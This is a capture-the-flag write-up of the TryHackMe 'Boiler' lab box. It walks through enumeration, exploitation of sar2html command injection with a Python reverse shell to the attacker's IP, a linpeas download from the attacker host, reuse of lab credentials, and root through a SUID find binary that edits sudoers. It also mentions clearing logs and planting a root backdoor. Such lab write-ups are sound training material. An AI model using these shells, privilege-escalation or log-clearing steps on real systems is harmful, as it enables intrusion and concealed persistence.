








## Boiler CTF Writeup

    Box IP Addresses:
    10.10.126.210
    10.10.28.146

Questions:

[Task 1] Questions #1

Intermediate level CTF. Just enumerate, you'll get there.

#1 	File extension after anon login

Answer:

#2 	What is on the highest port?

Answer:

#3 	What's running on port 10000?

Answer:

#4 	Can you exploit the service running on that port? (yay/nay answer)

Answer:

#5 	What's CMS can you access?

Answer:

#6 	Keep enumerating, you'll know when you find it.

Answer:

#7 	The interesting file name in the folder?

Answer:

[Task 2] Questions #2

You can complete this with manual enumeration, but do it as you wish

#1 	Where was the other users pass stored(no extension, just the name)?

Answer:

#2 	user.txt

Answer:

#3 	What did you exploit to get the privileged user?

Answer:

#4 	root.txt

---
### nmap

First we'll do a quick nmap scan using -sT (TCP connect port scan).

    kali@kali-[10.8.82.167]:~/labs/tryhackme/boiler-ctf/docs$ nmap -sT -oA nmap-init 10.10.126.210  
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 12:09 EDT
    Nmap scan report for 10.10.126.210
    Host is up (0.19s latency).
    Not shown: 997 closed ports
    PORT      STATE SERVICE
    21/tcp    open ftp
    80/tcp    open  http
    10000/tcp open  snet-sensor-mgmt

We can see ports 21 (FTP), 80 (HTTP), and 10000 (SNET-Sensor-Management) are open.

Running -sC and -sV against these ports gives us more details:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/boiler-ctf/docs$ nmap -p 21,80,10000 -sC -sV -oA nmap-scripts 10.10.126.210
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 12:10 EDT
    Nmap scan report for 10.10.126.210
    Host is up (0.021s latency).

    PORT      STATE SERVICE VERSION
    21/tcp    open  ftp     vsftpd 3.0.3
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.8.82.167
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 1
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-robots.txt: 1 disallowed entry 
    |_/
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
    |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
    Service Info: OS: Unix

We will also perform a full port scan using -Pn, and found port 55077 open:

    kali@kali-[10.8.82.167]:~/Desktop$ nmap -p 21,80,10000,55007 -sC -sV 10.10.28.146    
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 14:43 EDT
    Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
    NSE Timing: About 99.81% done; ETC: 14:44 (0:00:00 remaining)
    Nmap scan report for 10.10.28.146
    Host is up (0.019s latency).

    PORT      STATE SERVICE VERSION
    21/tcp    open  ftp     vsftpd 3.0.3
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.8.82.167
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 1
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-robots.txt: 1 disallowed entry 
    |_/
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
    |_http-server-header: MiniServ/1.930
    |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
    55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
    |   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
    |_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 37.04 seconds

We can see webmin running on port 10000, and we can login anonymously through ftp.

### Red Herring #1 - Robots.txt file:

We see in the nmap scan that there's a http-robots.txt file, let's take a look at it:

Output:

    User-agent: *
    Disallow: /

    /tmp
    /.ssh
    /yellow
    /not
    /a+rabbit
    /hole
    /or
    /is
    /it

    079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075

The bottom string looks like octal, but when put through an octal --> ascii converter it comes out as gibberish.
Found out later its actually ASCII. So you first do:

ASCII to text: 

OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK

Base64 decode the above:

Output: 99b0660cd95adea327c54182baa51584

MD5 decrypt the above:

Output: kidding

Which is a red herring :)

### Red Herring #2 - FTP:

Let's take a look at the FTP:

    ftp 10.10.126.210
    Username: anonymous

We can use `ls -la` to find any hidden files, and find a .info.txt file. We download it using `get` and `cat` it out to get the following output:

    Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

This looks like ROT13 so decoding it using ROT13 we get the following:

Message: Just wanted to see if you find it. Lol. Remember: Enumeration is the key!

Red Herring #3 - Webmin Portal:

We can access the webmin login portal using https:// instead of http:// as follows:

URL : https://10.10.126.10:10000

but we don't actually need to attack it.

### Perform Gobuster:

Found 2 directories:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/boiler-ctf/docs$ gobuster dir -u http://10.10.126.210 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

    /manual (Status: 301)
    /joomla (Status: 301)

/joomla takes you to a blog page:

Which has a login area.

We can find the joomla version using the following URL:

http://10.10.126.210/joomla/administrator/manifests/files/joomla.xml

Which is basically [URL OF JOOMLA]/administrator/manifests/files/joomla.xml

Source: https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website

We know that the Joomla version is 3.9.12-dev. 

/manual takes us to Apache HTTP Server Version 2.4 Documentation:

FAILED ATTEMPTS:

#### 1. Hydra

We're gonna try hydra to login to Joomla:

This is a normal request for username + password:

POST /joomla/index.php/component/users/?task=user.login&Itemid=101 HTTP/1.1
Host: 10.10.126.210
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.126.210/joomla/index.php/component/users/?view=login&Itemid=101
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Connection: close
Cookie: redirect=1; bf0e375959c3945329b595868dd9f25f=hm839pl593castk4rjk3cq96bq
Upgrade-Insecure-Requests: 1

username=USERNAME&password=PASWORD&return=aHR0cDovLzEwLjEwLjEyNi4yMTAvam9vbWxhLw%3D%3D&b445e942d319a178363244834828b133=1

We're going to manipulate this in hydra to use a wordlist as a password, and 'admin' (default username) as username.

The "failed" search we'll do is : do not match

This did not work :)

### Red Herring #3 - Base64 Encoded Text:

Inside http://10.10.126.210/joomla/_files/ we find:

    VjJodmNITnBaU0JrWVdsemVRbz0K

which when bas64 decoded twice provides us with:

    Whopsie daisy

### Performing Dirsearch:

See dirsearch-output.txt

In joomla there's a _test directory:

http://10.10.28.146/joomla/_test/

We can see its sar2html.

There's a file called log.txt:

    Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
    Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
    Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
    Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
    Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
    Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
    Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
    Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.

And we have a username + password:
basterd:superduperp@$$

Looking up sar2html online, we find a Remote Code Execution exploit:

https://www.exploit-db.com/exploits/47204

The way it works is, if you type in a command after a semicolon, the command will execute in the URL, as seen here:

Maybe we can execute a reverse shell through here:

First run dpkg -l to see if netcat is installed -

It is, so let's use the following reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.82.167",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

and we get a reverse shell on our nc listener!

We can invoke a shell through python:

    python -c 'import pty;pty.spawn("/bin/bash")'

and then change user to basterd using `su basterd`. Alternatively you can ssh into basterd using:

    ssh basterd@10.10.28.146 -p 55077

Inside basterd's home directory, we see a backup.sh file, that contains the user `stoner` username and password:

    USER=stoner
    #superduperp@$$no1knows

and there's mention of a log file:

I originally found out that SSH is running on a different port than 22 using ss, and then performed the nmap with -Pn before, but for the sake of readability, I put the nmap at the beginning:

Logging into ssh as stoner:

We can view the .secret file in stoner's home directory:

.secret:You made it till here, well done.

We can now download linpeas using curl, and SimpleHTTPServer

    curl http://10.8.82.167/linpeas.sh --output linpeas.sh
    chmod a+x linpeas.sh
    ./linpeas.sh > lin.txt

We can see that /find SUID bit is set, so we can execute code as root. We can get permanent privesc through manipulating the sudoers file, using the command "visudo":

    stoner@Vulnerable:~$ touch me
    stoner@Vulnerable:~$ find me -exec "visudo" \;

Then under root, I added:

stoner   ALL=(ALL:ALL) NOPASSWD:ALL

and overwrite the /etc/sudoers file (instead of the .tmp one we're in right now).

Then type `Q` (capitalised) to quit visudo, and finally sudo su to get a root shell:

Now we can read the /root/root.txt file:

root.txt:It wasn't that hard, was it?

Complete!

Next steps would be to remove sudo privs for stoner, clear logs for the sudoers, and create a permanent backdoor for root.

MISTAKES I MADE:

Didn't enumerate thoroughly enough.
- Should do a thorough recursive directory scan.
- USE DIRSEARCH to enumerate directories.
    - Dirsearch was how I found the _test.
- Needed to do a more thorough nmap scan using -Pn (No Ping).
    - This option skips the Nmap discovery stage altogether. Normally, Nmap uses this stage to determine active machines for heavier scanning. By default, Nmap only performs heavy probing such as port scans, version detection, or OS detection against hosts that are found to be up. Disabling host discovery with -Pn causes Nmap to attempt the requested scanning functions against every target IP address specified.[...]Proper host discovery is skipped as with the list scan, but instead of stopping and printing the target list, Nmap continues to perform requested functions as if each target IP is active. To skip ping scan and port scan, while still allowing NSE to run, use the two options -Pn -sn together.